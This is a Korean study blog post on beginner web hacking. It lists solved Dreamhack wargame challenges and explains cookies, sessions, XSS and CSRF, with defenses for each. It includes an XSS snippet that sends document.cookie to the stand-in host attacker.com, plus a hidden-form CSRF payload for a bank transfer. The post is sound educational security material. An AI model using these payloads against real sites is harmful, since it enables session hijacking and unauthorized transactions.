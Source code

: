 ```yaml
---
title: "웹해킹 1주차"
description:
date: 2025-05-08
update: 2021-05-08
tags:
  - 웹해킹
series: "웹해킹"
---
```

# 🌱 Dreamhack 새싹 문제 풀이 & 웹 해킹 로드맵 학습 정리

요즘 웹 해킹 공부를 본격적으로 시작하면서 Dreamhack이라는 플랫폼을 활용하고 있어요.  
실습 중심이라 직접 손으로 해보며 배우기 좋고, 강의도 체계적으로 잘 구성되어 있어서 혼자 공부하기에 정말 괜찮습니다.  
이 글에서는 지금까지 풀어본 문제들과 수강한 강의, 그리고 각 취약점에 대한 개념과 예시까지 정리해보려고 합니다.

---

## ✅ 1. 새싹 단계 문제 풀이 (총 13문제)

Dreamhack의 새싹 단계 문제들은 웹 해킹 입문자에게 최적화되어 있어요.  
웹 개발을 조금 해보신 분이라면 전부 풀이 가능하다고 생각합니다.  

제가 풀었던 문제는 아래와 같습니다:

- https://dreamhack.io/wargame/challenges/267  
- https://dreamhack.io/wargame/challenges/850  
- https://dreamhack.io/wargame/challenges/830  
- https://dreamhack.io/wargame/challenges/96  
- https://dreamhack.io/wargame/challenges/266  
- https://dreamhack.io/wargame/challenges/6  
- https://dreamhack.io/wargame/challenges/45  
- https://dreamhack.io/wargame/challenges/12  
- https://dreamhack.io/wargame/challenges/37  
- https://dreamhack.io/wargame/challenges/1  
- https://dreamhack.io/wargame/challenges/1113  
- https://dreamhack.io/wargame/challenges/834  
- https://dreamhack.io/wargame/challenges/873

문제를 풀다 보면 단순히 정답을 맞추는 것이 아니라,  
공격 흐름과 시스템의 취약한 구조까지 생각해보게 되면서 사고방식 자체가 달라지는 걸 느낄 수 있어요.

---

## 📚 2. Dreamhack 웹 해킹 로드맵 수강

문제 풀이만으로는 부족하다고 느껴서 Dreamhack의 공식 로드맵 강의도 함께 수강했습니다.  
강의는 실습 중심이고 개념도 쉽게 설명해줘서 복습용으로도 좋았어요.

### ✅ 수강 완료
- [웹 해킹 로드맵](https://dreamhack.io/lecture/roadmaps/1)

### 📌 수강 예정
- [웹 취약점 심화 로드맵](https://dreamhack.io/lecture/roadmaps/13)  
- [보안 개발자를 위한 웹 취약점 로드맵](https://dreamhack.io/lecture/roadmaps/15)

---

## 🔐 쿠키 & 세션

### ✅ 쿠키(Cookie)란?

쿠키는 브라우저에 저장되는 작은 데이터로, 서버가 응답 시 아래처럼 설정해줍니다.

```http
Set-Cookie: session_id=abc123; HttpOnly; Secure
```

이후 클라이언트는 요청할 때마다 자동으로 전송해요:

```http
Cookie: session_id=abc123
```

- HttpOnly: 자바스크립트로 쿠키 접근을 막아줍니다. (`document.cookie` 방어)
- Secure: HTTPS 환경에서만 쿠키가 전송되게 제한합니다.

### ✅ 세션(Session)이란?

서버에 저장되는 사용자 상태 정보입니다.  
클라이언트는 세션 ID만 들고 있고, 실제 데이터는 서버에 저장돼요.

```python
# Flask 예시
session['user_id'] = 1234
```

서버는 세션 ID를 쿠키로 전달하고, 사용자가 요청을 보낼 때마다 ID를 이용해 해당 세션 정보를 불러옵니다.

---

## 🧨 XSS (Cross Site Scripting)

### ✅ XSS란?

사용자의 입력을 필터링하지 않고 페이지에 그대로 출력할 경우, 악성 스크립트가 실행되는 취약점입니다.

### ✅ 예시: document.cookie 탈취

```html
<script>
  fetch("http://attacker.com/steal?cookie=" + document.cookie);
</script>
```

HttpOnly가 설정되어 있지 않다면 쿠키를 탈취할 수 있어요.

### ✅ Reflective XSS 흐름

```html
<!-- URL: ?q=<script>alert('xss')</script> -->
<p>검색어: <script>alert('xss')</script></p>
```

### ✅ 방어 방법

- HTML 이스케이프 처리 (`<`, `>`, `"`)
- Content-Security-Policy 헤더 설정
- HttpOnly, Secure 옵션 설정
- 입력값 검증 및 출력 위치에 따른 컨텍스트 고려

---

## 🎯 CSRF (Cross Site Request Forgery)

### ✅ CSRF란?

로그인 상태의 사용자가 의도치 않은 요청을 하게 만드는 공격입니다.

### ✅ 예시

```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="10000">
</form>

<script>document.forms[0].submit();</script>
```

브라우저는 세션 쿠키를 자동으로 보내기 때문에 실제 사용자 권한으로 요청이 처리됩니다.

### ✅ 방어 방법

- CSRF 토큰 사용 (`<input type="hidden" name="csrf_token" value="...">`)
- Referer / Origin 헤더 검증
- 쿠키에 SameSite=Lax 또는 SameSite=Strict 옵션 설정

---

## 🌐 웹 기초 지식 요약

### ✅ 요청 / 응답 구조

```http
GET /index.html HTTP/1.1
Host: example.com
```

응답:

```http
HTTP/1.1 200 OK
Content-Type: text/html

<html>...</html>
```

BurpSuite 같은 도구를 사용하면 이 흐름을 실시간으로 가로채고 수정해볼 수 있어요.

이 구조를 이해하면 XSS나 CSRF 같은 취약점도 흐름상으로 이해하기 훨씬 쉬워집니다.

---

## 🛠️ SQLi 학습 준비

SQL Injection 학습을 위한 준비로 SQL 문법을 복습하고 있어요.  
기초적인 CRUD 명령들을 다시 정리하면서, 실제 쿼리가 어떻게 작동하는지 감을 익히는 중입니다.

### ✅ 복습한 내용

- CREATE, DROP  
- INSERT, SELECT, UPDATE, DELETE  

조만간 Dreamhack의 SQLi 강의 및 실습 문제도 풀면서 그 내용을 따로 정리해볼 예정이에요.

---

## ✍️ 마무리

이번 글에서는 Dreamhack 새싹 단계 문제 풀이와  
웹 해킹 로드맵 강의 수강, 그리고 주요 취약점 개념(Cookie/Session, XSS, CSRF 등)에 대해 실습 중심으로 정리해봤습니다.

혼자 공부하시는 분들께는 Dreamhack 플랫폼 정말 추천드리고 싶어요.  
실습 → 개념 → 적용까지 흐름이 잘 잡혀 있어서 보안 쪽을 입문할 때 접근하기 수월했습니다.

다음에는 SQLi, Command Injection, LFI, SSRF 같은 취약점도 하나씩 실습하고 정리해보겠습니다.  
읽어주셔서 감사합니다!
